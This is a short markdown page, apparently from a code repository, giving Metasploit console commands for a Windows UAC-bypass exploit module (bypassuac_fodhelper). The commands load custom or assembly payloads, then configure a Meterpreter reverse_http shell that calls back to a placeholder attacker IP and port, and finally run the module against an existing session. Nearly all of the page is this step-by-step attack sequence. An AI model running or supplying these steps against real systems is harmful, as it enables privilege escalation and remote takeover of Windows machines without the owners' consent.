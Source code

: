 # Metasploit

TODO: Fill this info

```
msf > use exploit/windows/local/bypassuac_fodhelper

msf exploit(windows/local/bypassuac_fodhelper) > set target 1
```

You can deploy your own custom payload especially when it's written in assembly from scratch. 

```
msf exploit(windows/local/bypassuac_fodhelper) > set payload generic/custom

msf exploit(windows/local/bypassuac_fodhelper) > options

msf exploit(windows/local/bypassuac_fodhelper) > advanced

msf exploit(windows/local/bypassuac_fodhelper) > set payloadfile /path/to/payload.bin

msf exploit(windows/local/bypassuac_fodhelper) > set arch x64

msf exploit(windows/local/bypassuac_fodhelper) > set platform windows
```

You can deploy a custom payload by specifying the `exe::custom` option.

```
msf exploit(windows/local/bypassuac_fodhelper) > set payload windows/x64/meterpreter/reverse_http

msf exploit(windows/local/bypassuac_fodhelper) > options

msf exploit(windows/local/bypassuac_fodhelper) > advanced

msf exploit(windows/local/bypassuac_fodhelper) > set lhost <attacker_IP>

msf exploit(windows/local/bypassuac_fodhelper) > set lport <attacker_PORT>

msf exploit(windows/local/bypassuac_fodhelper) > set exe::custom /path/to/payload.exe
```

Then pass on the `session` ID and execute the module.

```
msf exploit(windows/local/bypassuac_fodhelper) > session <session_ID>

msf exploit(windows/local/bypassuac_fodhelper) > run
```